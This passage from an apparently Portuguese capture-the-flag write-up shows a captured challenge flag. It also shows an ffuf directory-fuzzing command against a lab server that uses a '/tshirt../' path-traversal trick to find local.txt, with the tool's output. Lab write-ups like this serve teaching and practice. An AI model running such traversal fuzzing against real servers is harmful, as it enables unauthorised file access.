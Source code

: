 
SERVER_PORT=8080
SERVER_TIMEOUT=300

FLAG=Extreme{55cb4f883997143ea5946f10c5484295ce93a7b3}
{{< /highlight >}}
  {{< /bs/toggle-item >}}
{{< /bs/toggle >}}

Com isso, identificamos a resposta do **Desafio 4**: `Extreme{55cb4f883997143ea5946f10c5484295ce93a7b3}`.

## 2.10. Continuando a busca por `local.txt`

Tentei um fuzzing procurando por `.txt` no `/image` e não encontrei o arquivo `local.txt`. Rodei o fuzzing no diretório `/tshirt/` pra ver se encontrava alguma coisa `.txt` e também não encontrei.

Eu testei a lista `/usr/share/wordlists/seclists/Fuzzing/fuzz-Bo0oM.txt` tanto no diretório `/image` quanto `/tshirt` e como não encontrei nada, testei a lista padrão `/usr/share/wordlists/dirb/common.txt`.

{{< bs/toggle name=123 style=pills fill=false alignment=left >}}
{{< bs/toggle-item Fuzzing >}}
{{< highlight bash >}}
┌──(kali㉿kali)-[~]
└─$ ffuf -u "http://10.0.1.227/tshirt../FUZZ" \
     -w /usr/share/wordlists/dirb/common.txt \
     -e .txt -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.1.227/tshirt../FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 301
________________________________________________

                        [Status: 403, Size: 169, Words: 4, Lines: 8, Duration: 81ms]
local.txt               [Status: 200, Size: 41, Words: 1, Lines: 1, Duration: 81ms]
:: Progress: [9228/9228] :: Job [1/1] :: 496 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
{{< /highlight >}}
{{< /bs/toggle-item >}}
